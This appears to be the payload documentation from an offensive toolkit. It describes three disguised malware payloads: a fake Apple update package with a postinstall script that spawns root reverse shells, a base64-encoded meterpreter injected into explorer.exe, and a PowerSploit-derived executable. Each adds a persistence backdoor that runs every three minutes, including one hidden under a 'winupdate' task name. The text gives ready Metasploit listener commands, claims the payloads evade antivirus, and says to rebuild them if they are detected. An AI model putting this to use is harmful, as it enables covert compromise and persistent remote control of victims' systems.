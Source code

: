 
-------------------------------
----- Payload Information -----
-------------------------------

[Apple_MacOSX_Update.pkg]

- Description: This is 4 lines of BASH stuck in an apple postinstall script.
               No signature AV can ever detect this because it uses system
               mechanics and contains no binaries in the package.

- This will spawn 2 root shells to the following addresses:
	172.16.42.2 6446
	172.16.42.3 6446

- It will also add a persistent backdoor that will spawn these 2 shells
  every 3 minutes (sudo crontab -l).

- Use this in metasploit for a listener:

set PAYLOAD generic/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 6446
set ExitOnSession false
set AutoRunScript ""
exploit -j


[meterpreter_inject.exe]

- Description: This is a windows meterpreter shell that was
               encoded into base 64, embedded into a python script
               that preforms raw shellcode injection into explorer.exe,
               and then compiled into an executable. It is not detected
               at the time of this writing. If it is, recreate it.

- This will spawn 2 meterpreter shells to the following addresses:
	172.16.42.2 587
	172.16.42.3 587

- It will also add a persistent backdoor to Windows that will spawn
  these 2 shells every 3 minutes (schtasks /query /tn winupdate)

- Use this in metasploit for a listener:

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 587
set ExitOnSession false
set EXITFUNC thread
set AutoRunScript "migrate -f"
exploit -j

[powershell-https.exe]

- Description: This is an implementation of "Invoke-Shellcode"
               from Matthew Graeber's PowerSploit modules. It
               was minified and implemented into a standalone
               python script then compiled into an executable.

- This will spawn 2 meterpreter shells to the following addresses:
        172.16.42.2 587
        172.16.42.3 587

- It will also add a persistent backdoor to Windows that will spawn
  these 2 shells every 3 minutes (schtasks /query /tn winupdate)

- Use this in metasploit for a listener:

set PAYLOAD windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 587
set SessionCommunicationTimeout 0
set ExitOnSession false
set EXITFUNC thread
set AutoRunScript ""
exploit -j


